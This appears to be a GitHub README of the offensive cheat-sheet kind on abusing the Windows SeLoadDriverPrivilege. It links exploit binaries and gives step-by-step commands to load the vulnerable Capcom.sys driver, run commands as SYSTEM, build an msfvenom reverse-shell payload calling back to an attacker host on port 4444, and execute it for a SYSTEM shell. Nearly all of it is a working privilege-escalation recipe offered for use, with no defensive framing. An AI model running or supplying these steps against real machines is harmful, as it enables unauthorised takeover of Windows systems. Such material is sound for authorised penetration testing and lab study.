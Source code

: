 # SeLoadDriverPrivilege

If you see this privilege, doesn't matter if it says the priv is Disabled we can Enabled it and exploit it by uploading malicious driver and using that driver we can execute our payload.

# Exploitation

Upload the driver [eoploaddriver_x64.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/eoploaddriver_x64.exe), [Capcom.sys file](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/Capcom.sys), [ExploitCapcom.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/ExploitCapcom.exe) on traget machine under writable directory.

First we need to turn on the privilege of SeLoadDriverPrivilege that is disabled.
```markdown
.\eoploaddriver_x64.exe System\\CurrentControlSet\\dfserv C:\\Temp\\Capcom.sys
```

Now using ExploitCapcom.exe load Capcom.sys to target machine.
```markdown
.\ExploitCapcom.exe LOAD C:\\Temp\\Capcom.sys
```

After successfully loading Capcom.sys we can now run any cmd as privilege user with EXPLOIT keyword.
```markdown
.\ExploitCapcom.exe EXPLOIT whoami
```

Now we can generate a revshell with msfvenom.
You can also use other revshell.
On Attacker vm.
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe > shell.exe
```

Upload it on Traget machine.
Now execute the exploit.
```markdown
.\ExploitCapcom.exe EXPLOIT shell.exe
```

You gonna get reverse shell as SYSTEM.

